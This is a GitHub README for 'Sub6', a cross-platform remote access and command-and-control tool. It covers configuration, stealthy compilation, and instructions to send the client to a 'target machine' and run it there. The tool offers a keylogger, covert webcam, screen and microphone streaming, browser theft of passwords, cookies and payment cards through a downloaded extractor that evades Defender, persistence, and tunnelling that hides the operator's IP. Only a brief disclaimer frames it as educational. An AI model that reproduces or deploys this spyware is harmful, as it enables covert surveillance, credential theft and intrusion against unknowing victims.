

# Sub6 - Multi-Platform Remote Access Tool

<p align="center">
  
</p>

<p align="center">
  <b>Cross-platform C2 framework with real-time streaming capabilities</b>
</p>

---

## 🎯 Features

### Multi-Platform Support
- **Windows** - Full-featured client with live streaming, keylogging, and credential extraction
- **Linux** - Screen/webcam streaming, file operations, and persistence
- **Android** - Camera access, SMS/contacts dump, and device information

### Windows Capabilities
| Feature | Description |
|---------|-------------|
| 🖥️ **Live Screen** | Real-time screen streaming (30+ fps, HD quality) |
| 📷 **Live Webcam** | Real-time camera streaming with camera selection |
| 🎤 **Live Audio** | Real-time microphone streaming |
| 🔑 **Credential Extraction** | Chrome/Edge/Brave passwords, cookies, tokens (v20 App-Bound Encryption supported) |
| ⌨️ **Keylogger** | Background keystroke logging |
| 🖱️ **Remote Control** | Mouse movement, clicks, keyboard input |
| 📂 **File Operations** | Upload, download, folder zip download |
| 🎬 **Screen Recording** | Record screen to AVI file |
| 🔒 **Persistence** | Registry-based auto-start |

### Linux Capabilities
- Live screen streaming (scrot + ffmpeg)
- Live webcam streaming
- Live audio streaming (ALSA)
- Browser credential extraction
- File operations
- Persistence via cron/systemd

### Android Capabilities
- Camera photo capture
- SMS/Contacts/Call log dump (root required)
- Installed apps list
- WiFi information
- Device location (root required)

---

## 🚀 Quick Start

### 1. Clone the Repository
```bash
git clone https://github.com/adhikarisubodh9991/sub6-windows-payload.git
cd sub6-windows-payload
```

### 2. Configure the Client

Edit `client_windows.c` and update the server address:
```c
char g_server_host[256] = "YOUR_SERVER_IP_OR_DOMAIN";
char g_server_port[6] = "80";
```

Update the ChromElevator URL (for credential extraction):
```c
char g_chromelevator_url[512] = "https://raw.githubusercontent.com/YOUR_USERNAME/YOUR_REPO/main/files/chromelevator.exe";
```

### 3. Compile the Client

**Windows (using MinGW):**
```bash
gcc client_windows.c -o client.exe -lws2_32 -lwininet -liphlpapi -lgdi32 -luser32 -lshell32 -lvfw32 -lwinmm -lpsapi -lavifil32 -lavicap32 -lcrypt32 -lbcrypt -mwindows -s -O2
```

**Linux:**
```bash
gcc client_linux.c -o client -lpthread -s -O2
```

**Android (Termux):**
```bash
gcc client_android.c -o client -lpthread -s -O2
```

### 4. Start the Server
```bash
python server.py
```

Or with custom port:
```bash
python server.py --port 8080
```

### 5. Deploy Client
Send `client.exe` to the target machine and execute it.

---

## 🌐 Port Configuration Guide

The client and server **must use the same port** (unless using a reverse proxy). Here's how to configure for different scenarios:

### Scenario 1: Local Network Testing (Private IP)

Use any port (8080 recommended - doesn't require admin/root).

**client_windows.c:**
```c
char g_server_host[256] = "192.168.1.100";  // Your PC's local IP
char g_server_port[6] = "8080";
```

**Server:**
```bash
python server.py --port 8080
```

> 💡 Find your local IP: `ipconfig` (Windows) or `ip addr` (Linux)

---

### Scenario 2: Public IP (Direct, No Domain)

Use port 80 or 443 (passes through most firewalls).

**client_windows.c:**
```c
char g_server_host[256] = "203.0.113.50";  // Your public IP
char g_server_port[6] = "80";
```

**Server (requires root/admin for port 80):**
```bash
sudo python server.py --port 80
```

> ⚠️ Make sure port 80 is forwarded on your router and firewall allows it.

---

### Scenario 3: Cloudflare Tunnel (cloudflared) - RECOMMENDED

Cloudflare handles the port translation. Client connects to port 80, cloudflared forwards to your local server.

**How it works:**
```
Client → yourdomain.com:80 → Cloudflare → cloudflared → localhost:8080 → server.py
```

**client_windows.c:**
```c
char g_server_host[256] = "api.root1.me";     // Your Cloudflare domain
char g_server_port[6] = "80";                  // Always 80 for Cloudflare
```

**Server (any port, cloudflared handles translation):**
```bash
python server.py --port 8080
```

**Cloudflared tunnel config (`C:\Users\<YourUsername>\.cloudflared\config.yml` or `~/.cloudflared/config.yml`):**
```yaml
tunnel: controller
credentials-file: C:\Users\<YourUsername>\.cloudflared\<tunnel-id>.json
protocol: http2

ingress:
  - hostname: api.root1.me
    service: ws://localhost:8080
    originRequest:
      noTLSVerify: true
      connectTimeout: 30s
      tcpKeepAlive: 30s
      keepAliveTimeout: 90s
      keepAliveConnections: 100
      http2Origin: false
      disableChunkedEncoding: true
  - service: http_status:404
```

> 💡 **Key Configuration Notes:**
> - `protocol: http2` - Uses HTTP/2 for better performance
> - `service: ws://localhost:8080` - WebSocket support for real-time streaming
> - `disableChunkedEncoding: true` - Required for proper streaming
> - `noTLSVerify: true` - Skip TLS verification for local connections

**Start cloudflared:**
```bash
cloudflared tunnel run controller
```

> ✅ Benefits: No port forwarding, hides your real IP, free SSL, bypasses firewalls

---

### Scenario 4: Nginx Reverse Proxy

Similar to Cloudflare - client uses port 80, Nginx forwards to server.

**client_windows.c:**
```c
char g_server_host[256] = "c2.yourdomain.com";
char g_server_port[6] = "80";
```

**Server:**
```bash
python server.py --port 8080
```

**Nginx config (`/etc/nginx/sites-available/c2`):**
```nginx
server {
    listen 80;
    server_name c2.yourdomain.com;

    location / {
        proxy_pass http://127.0.0.1:8080;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "upgrade";
        proxy_set_header Host $host;
        proxy_read_timeout 86400;
    }
}
```

---

### Scenario 5: Ngrok (Quick Port Forwarding)

Ngrok gives you a public URL that forwards to your local server. Great for testing without domain setup.

**Step 1: Start your server**
```bash
python server.py --port 8080
```

**Step 2: Start ngrok**
```bash
ngrok http 8080
```

**Step 3: Get your ngrok URL** (from ngrok output)
```
Forwarding    https://abc123.ngrok.io -> http://localhost:8080
```

**client_windows.c:**
```c
char g_server_host[256] = "abc123.ngrok.io";  // Your ngrok subdomain (changes each run!)
char g_server_port[6] = "443";                 // Use 443 for HTTPS (ngrok default)
```

> ⚠️ **Important Notes:**
> - Free ngrok URLs **change every time** you restart ngrok
> - You need to recompile client each time URL changes
> - For persistent URL, get ngrok paid plan or use Cloudflare Tunnel instead
> - Use port `443` (HTTPS) not `80` - ngrok prefers HTTPS

**For stable ngrok URL (paid or custom domain):**
```bash
ngrok http 8080 --domain=your-subdomain.ngrok.io
```

---

### Scenario 6: Serveo / Localhost.run (Free SSH Tunneling)

Free alternatives to ngrok - no signup needed!

**Serveo:**
```bash
# Start server
python server.py --port 8080

# In another terminal - get public URL
ssh -R 80:localhost:8080 serveo.net
```

Output: `Forwarding HTTP traffic from https://xxxxx.serveo.net`

**client_windows.c:**
```c
char g_server_host[256] = "xxxxx.serveo.net";
char g_server_port[6] = "80";
```

**Localhost.run:**
```bash
ssh -R 80:localhost:8080 nokey@localhost.run
```

> 💡 These are free but URLs change. Good for quick testing.

---

### Quick Reference Table

| Scenario | Client Host | Client Port | Server Port | Notes |
|----------|-------------|-------------|-------------|-------|
| Local/LAN | `192.168.x.x` | `8080` | `8080` | Same port, no root needed |
| Public IP | `203.x.x.x` | `80` | `80` | Requires root, port forward |
| Cloudflare | `domain.com` | `80` | `8080` | Cloudflare translates |
| Nginx | `domain.com` | `80` | `8080` | Nginx translates |
| **Ngrok** | `xxx.ngrok.io` | `443` | `8080` | URL changes (free plan) |
| **Serveo** | `xxx.serveo.net` | `80` | `8080` | Free, no signup |
| Localhost | `127.0.0.1` | `8080` | `8080` | Testing only |

---

## 📋 Commands

### Server Commands (Before Session)
| Command | Description |
|---------|-------------|
| `sessions` | List all active sessions |
| `session <id>` | Interact with a session |
| `kill <id>` | Terminate a session |
| `help` | Show help menu |
| `exit` | Shutdown server |

### Session Commands (Inside Session)

#### General (All Platforms)
| Command | Description |
|---------|-------------|
| `sysinfo` | System information |
| `screenshot` | Take screenshot |
| `shell` | Interactive shell |
| `ps` | List processes |
| `download <file>` | Download file |
| `upload <file>` | Upload file |
| `cmd <command>` | Execute command |
| `cd <path>` | Change directory |
| `persist` | Install persistence |
| `unpersist` | Remove persistence |
| `background` | Return to server |
| `exit` | Close session |

#### Windows Only
| Command | Description |
|---------|-------------|
| `liveview [fps] [quality]` | Live screen (default: 30fps 80%) |
| `stoplive` | Stop live screen |
| `camview [fps] [quality]` | Live webcam (default: 30fps 80%) |
| `stopcam` | Stop live webcam |
| `liveaudio [rate]` | Live microphone (default: 22050Hz) |
| `stopaudio` | Stop live audio |
| `listcam` | List cameras |
| `selectcam <n>` | Select camera |
| `camshot` | Take webcam photo |
| `soundrecord [seconds]` | Record audio (1-300s) |
| `startrecord` | Start screen recording |
| `stoprecord` | Stop screen recording |
| `getrecord` | Download recording |
| `mousemove <x> <y>` | Move mouse |
| `click` | Left click |
| `rightclick` | Right click |
| `sendkeys <text>` | Send keystrokes |
| `browsercreds` | Extract browser credentials |
| `keylogs` | Download keylogger |
| `clearlogs` | Clear keylogger |
| `downloadfolder <dir>` | Download folder as zip |

---

## 🔐 Browser Credential Extraction

The tool uses **ChromElevator** to bypass Chrome's v20 App-Bound Encryption (Chrome 127+).

### What it Extracts:
- ✅ Passwords (all saved logins)
- ✅ Cookies (session cookies, auth tokens)
- ✅ Payment cards
- ✅ OAuth tokens
- ✅ IBANs

### Supported Browsers:
- Google Chrome
- Microsoft Edge
- Brave Browser

### How it Works:
1. Downloads `chromelevator.exe` to the Startup folder
2. Runs extraction (bypasses Defender via Startup folder exclusion)
3. Sends extracted JSON files to server
4. Cleans up (deletes exe and output folder)

---

## 📁 File Structure

```
sub6-windows-payload/
├── client_windows.c    # Windows client source
├── client_linux.c      # Linux client source
├── client_android.c    # Android client source
├── client.exe          # Compiled Windows client
├── server.py           # C2 server
├── compile             # Compilation instructions
├── logo.png            # Project logo
├── files/
│   └── chromelevator.exe  # Chrome credential extractor
└── loot/
    ├── screenshots/    # Captured screenshots
    ├── downloads/      # Downloaded files
    ├── webcam/         # Webcam captures
    └── audio/          # Audio recordings
```

---

## ⚙️ Requirements

### Server
- Python 3.8+
- websockets (`pip install websockets`)
- Pillow (`pip install Pillow`)

### Windows Client Compilation
- MinGW-w64 or MSYS2

### Linux Client Compilation
- GCC
- pthread library

---

## 🔧 Troubleshooting

### Client not connecting?
1. Check firewall allows the port (default: 80)
2. Verify server IP/domain in client source
3. Ensure server is running before client

### Credential extraction fails?
1. Make sure `chromelevator.exe` is in your repo's `files/` folder
2. Update `g_chromelevator_url` with correct raw GitHub link
3. Chrome/Edge must be closed during extraction

### Live streaming laggy?
- Increase FPS: `liveview 60 90`
- Default is 30fps at 80% quality
- Higher quality = more bandwidth needed

---

## ⚠️ Disclaimer

This tool is for **educational and authorized security testing purposes only**. Unauthorized access to computer systems is illegal. The author is not responsible for any misuse of this software.

---

## 📜 License

This project is provided as-is for educational purposes.

---

<p align="center">
  <b>Made by Sub6 Team</b>
</p>
